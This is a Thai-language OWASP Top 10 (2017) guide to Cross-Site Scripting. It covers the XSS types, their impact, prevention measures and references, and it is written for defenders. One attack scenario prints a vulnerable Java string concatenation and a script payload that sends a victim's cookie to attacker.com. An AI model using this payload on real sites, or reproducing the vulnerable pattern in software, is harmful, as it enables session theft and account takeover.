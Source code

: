 # A7:2017 Cross-Site Scripting (XSS)

| ผู้โจมตี/ช่องทาง | จุดอ่อนด้านความปลอดภัย           | ผลกระทบ               |
| -- | -- | -- |
| การเข้าถึงช่องโหว่ : ความยากในการโจมตี 3 | แพร่กระจายง่าย 3 : ตรวจพบได้ง่าย 3 | ผลกระทบทางเทคนิค 2 : ผลกระทบทางธุรกิจ ? |
| โปรแกรมตรวจสอบช่องโหว่อัตโนมัติ สามารถใช้ตรวจจับและโจมตีช่องโหว่ประเภท XSS ได้ทั้งสามรูปแบบ (Reflected XSS, Stored XSS และ DOM XSS) พร้อมทั้งมี เฟรมเวิร์ค สำหรับโจมตีช่องโหว่นี้โดยเฉพาะแจกฟรีอีกด้วย เช่น BeEF (Browser Exploitation Framework) | ช่องโหว่ XSS แพร่กระจายได้มากเป็นอันดับสอง ใน OWASP Top 10 และพบว่าสองในสามส่วนของแอพพลิเคชั่นที่ถูกทดสอบความปลอดภัยมีช่องโหว่ XSS, โปรแกรมตรวจสอบช่องโหว่อัตโนมัติสามารถใช้หาช่องโหว่ XSS บางส่วนได้ โดยเฉพาะในเว็บเทคโนโลยีหลัก ๆ อย่าง PHP, J2EE / JSP และ ASP.NET | โดยทั่วไปผลกระทบของช่องโหว่ XSS มีความรุนแรงปานกลางสำหรับประเภท Reflected กับ DOM XSS และมีความรุนแรงสูงสำหรับประเภท Stored XSS ผลกระทบหลัก ๆ คือผู้โจมตีสามารถสั่งการทำงานฝั่ง client บน web browser ของเหยื่อได้ เช่นสามารถขโมยรหัสผ่านที่พิมพ์ หรืออ่านจากใน textfield, ขโมย user session หรือโจมตีเหยื่อด้วยมัลแวร์ที่เขียนจาก JavaScript |

## แอพพลิเคชั่นนี้มีช่องโหว่หรือไม่?

ช่องโหว่ XSS มีสามประเภท ซึ่งทั้งหมดนี้โจมตีไปที่ web browser ของเหยื่อ:

* **Reflected XSS**: เกิดจากแอพพลิเคชั่นหรือ API รับค่ามาจากผู้ใช้งานโดยไม่ได้ตรวจสอบมาแสดงผลเป็นหน้าเว็บ HTML ถ้าถูกโจมตีสำเร็จ ผู้โจมตีสามารถสั่งการทำงานด้วยโค้ด HTML และ JavaScript ใด ๆ บน web browser ของเหยื่อได้ตามต้องการ โดยปกติแล้ว XSS ประเภทนี้ เหยื่อจะต้องเข้า link หน้าเว็บที่ผู้โจมตีสร้างหรือใส่ HTTP parameter บนเว็บที่มีช่องโหว่ XSS แล้วส่งมาให้เหยื่อเปิด อาจใช้ร่วมกับการโจมตีแบบอื่นเช่น watering hole, การแพร่เว็บโฆษณา และอื่น ๆ 
* **Stored XSS**: เกิดจากแอพพลิเคชั่นหรือ API เก็บค่าที่รับมาจากผู้ใช้งานโดยไม่ได้ตรวจสอบแล้วนำมาแสดงผลในภายหลัง ให้ผู้ใช้งานหรือผู้ดูแลระบบเห็น โดยปกติแล้ว Stored XSS จัดว่าเป็นช่องโหว่ที่มีความรุนแรงสูงหรือร้ายแรงมาก
* **DOM XSS**: เฟรมเวิร์ค JavaScript , แอพพลิเคชั่นที่มีหน้าเดียว และ API ต่าง ๆ ที่รับค่าที่ผู้โจมตีควบคุมได้ส่งมาแสดงโดยไม่ได้ตรวจสอบ มาแสดงตอน JavaScript กำลังทำงานอยู่และค่าที่ผู้โจมตีส่งมาทำงานเป็น JavaScript เกิดขึ้นใน DOM จะเรียกได้ว่าเป็น DOM XSS 

ปกติแล้วการโจมตีแบบ XSS ส่งผลให้ผู้โจมตีสามารถขโมย user session เหยื่อได้, ยึดบัญชีของเหยื่อได้, ข้ามผ่านการยืนยันตัวแบบ MFA (Multi-Factor Authentication), แก้ไขค่าใน DOM node บน HTML หรือแก้ไขหน้าเว็บ (เช่นสร้างหน้าล็อคอินปลอม), โจมตีผู้ใช้งานเว็บผ่าน web browser เช่นหลอกให้ดาวโหลดไฟล์มัลแวร์, ดักรหัสผ่านที่พิมพ์ผ่านคีย์บอร์ด และการโจมตีประเภท client-side อื่น ๆ อีกมากมาย

## ป้องกันอย่างไร

การป้องกันช่องโหว่ XSS จะต้องทำการแยก ข้อมูลที่รับมาจากผู้ใช้งานออกจากโค้ด HTML และ JavaScript ที่ทำงานปกติในหน้าเว็บ ซึ่งสามารถทำได้โดย:

* ใช้เฟรมเวิร์คที่ทำการป้องกัน XSS มาให้ตอนแสดงค่าที่รับมาจากผู้ใช้งานอยู่แล้ว เช่นใน Ruby on Rails หรือ React JS เวอร์ชั่นล่าสุด และจำเป็นต้องศึกษาข้อจำกัดของเฟรมเวิร์คในการป้องกัน XSS พร้อมทั้งวิธีการจัดการค่าที่รับเข้ามาในกรณีที่เฟรมเวิร์คไม่ได้ครอบคลุมในจุดนั้น ๆ
* แปลงค่าที่รับเข้ามาผ่าน HTTP request ให้เหมาะสมกับส่วนที่นำไปแสดงผลของหน้าเว็บ (เช่นในส่วนของ body, attribute, JavaScript, CSS, หรือ URL) จะช่วยแก้ปัญหาช่องโหว่ XSS ได้ เพิ่มเติมคือในเอกสาร [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) มีบอกรายละเอียดว่ารับค่าเข้ามาแสดงที่ส่วนไหน จะต้องใช้เทคนิคแปลงค่าใด
* เมื่อมีการแก้ไขข้อมูลบนหน้าเว็บผ่าน JavaScript จะต้องทำการแปลงค่าอย่างปลอดภัยซึ่งจะแตกต่างกันตามแต่ส่วนที่นำไปแสดง เพื่อป้องกัน DOM XSS ถ้าไม่สามารถแปลงได้ ให้ใช้เทคนิคอื่น ๆ ที่อธิบายไว้ในเอกสาร  [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* เปิดใช้งานฟีเจอร์ [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) ซึ่งเป็นการป้องกัน XSS โดยใช้หลักการของ defense-in-depth, ถ้าใช้อย่างถูกวิธี จะป้องกัน XSS ได้ในกรณีที่ไม่มีช่องโหว่อื่น ๆ ที่ทำให้ผู้โจมตีสามารถใส่โค้ดอันตรายผ่านการนำไฟล์มาแสดงผลบนหน้าเว็บได้ (เช่น path traversal ที่เปลี่ยนที่อยู่ของไฟล์ JavaScript ที่นำมาใช้งานหรือผู้โจมตีสามารถแก้ไขค่าไฟล์บนเซิร์ฟเวอร์ที่ค่าใน CSP ยอมให้เรียกโค้ดมาใช้ได้) 

## ตัวอย่างของกระบวนการโจมตี

**Scenario #1**: กรณีที่แอพพลิเคชั่นรับค่าจากผู้ใช้งานโดยไม่ได้ตรวจสอบหรือแปลงให้ปลอดภัยแล้วนำมาแสดงบนหน้าเว็บโดยตรงจากโค้ดภาษา Java ต่อไปนี้:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

ผู้โจมตีสามารถแก้ไขค่า HTTP parameter ชื่อ CC ผ่าน web browser ไปเป็นค่า:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

แล้วส่ง link ไปให้เหยื่อเปิด การทำแบบนี้เป็นการใส่ JavaScript เพื่อโจมตีทำให้ session ID ที่อยู่ใน cookie ของ web browser ของเหยื่อที่เปิด link ถูกส่งไปยังเว็บของผู้โจมตี ส่งผลให้ ผู้โจมตีสามารถข้ามผ่านการล็อคอินเข้าไปเป็น user session ของเหยื่อได้

**ข้อสังเกต**: ถ้าเกิดในแอพพลิเคชั่นมีช่องโหว่ XSS ผู้โจมตีสามารถโจมตี XSS เพื่อข้ามผ่านการป้องกันของช่องโหว่ CSRF ใด ๆ และทำการโจมตีแบบ CSRF ต่อได้

## อ้างอิง

### จาก OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### จากแหล่งอื่น

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
